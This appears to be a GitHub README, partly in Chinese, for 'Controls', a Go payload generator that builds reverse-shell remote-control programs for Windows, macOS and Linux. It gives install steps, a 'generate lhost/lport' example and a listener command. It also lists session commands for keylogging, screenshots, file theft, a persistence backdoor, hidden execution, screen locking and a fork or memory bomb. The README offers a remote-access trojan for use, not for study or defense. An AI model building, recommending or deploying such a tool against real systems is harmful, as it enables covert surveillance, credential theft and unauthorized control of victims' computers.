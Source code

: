 <!--<p align="center">
  <img src="https://github.com/1os4r/Controls/blob/master/content/logo.png">
</p>
-->

<h1 align="center">Controls Payload Generator</h1>
<!--
<p align="center">
  <a href="https://golang.org/">
    <img src="https://img.shields.io/badge/Golang-1.11-blue.svg">
  </a>
  <a href="https://github.com/1os4r/Controls/blob/master/LICENSE">
    <img src="https://img.shields.io/badge/License-BSD%203-lightgrey.svg">
  </a>
  <a href="https://github.com/1os4r/Controls/blob/master/main.go">
    <img src="https://img.shields.io/badge/Release-3.0-red.svg">
  </a>
</p>
-->

<p align="center">
  Controls用来生成控制远程操作系统的Poc。
</p>

## Install
```bash
$ go get github.com/1os4r/Controls
$ go get github.com/kbinani/screenshot
$ go get github.com/lxn/win
$ go get github.com/matishsiao/goInfo
$ go get golang.org/x/sys/windows
$ cd ~/go/src/github.com/1os4r/Controls
$ go run main.go
```

## How to Use

命令    | 参数及介绍
:-----      |:-----
`generate`  |生成控制程序 (```e.g```. `generate lhost=192.168.0.100 lport=8080 fname=test --windows`)
`lhost=`    |指定目标ip
`lport=`    |指定目标端口
`fname=`    |指定输出文件名称
`--windows` |目标系统为``` Windows```
`--macos`   |目标系统为 ```Mac OS```
`--linux`   |目标系统为 ```Linux```
`listen`    |从本地的一个端口监听 (```e.g```. `listen lport=8080`)
`serve`     |服务文件
`exit`      |退出

命令    | 参数及介绍
:-----                  |:-----
`download`              |下载文件
`upload`                |上传文件
`screenshot`            |截屏
`keylogger_start`       |键盘记录
`keylogger_show`        |输出键盘记录内容
`persistence_enable`    |维持后门
`persistence_disable`   |移除后门
`getos`                 |获取系统名称
`lockscreen`            |锁定目标屏幕
`openurl`               |打开指定```URL```
`bomb`                  |内存炸弹
`clear`                 |清屏
`back`                  |挂起会话
`exit`                  |关闭会话

## Features

| 作用                 |  Win  |  MacOS  |  Linux |
|:-------------------------|:-------:|:------:|:-----:|
| `Reverse Shell`          |    X    |    X   |   X   |
| `Download File`          |    X    |    X   |   X   |
| `Upload File`            |    X    |    X   |   X   |
| `Screenshot`             |    X    |    X   |   X   |
| `Keylogger`              |    X    |        |       |
| `Persistence`            |    X    |        |       |
| `Open URL`               |    X    |    X   |   X   |
| `Get OS Info`            |    X    |    X   |   X   |
| `Fork Bomb`              |    X    |    X   |   X   |
| `Run Hidden`             |    X    |        |       |
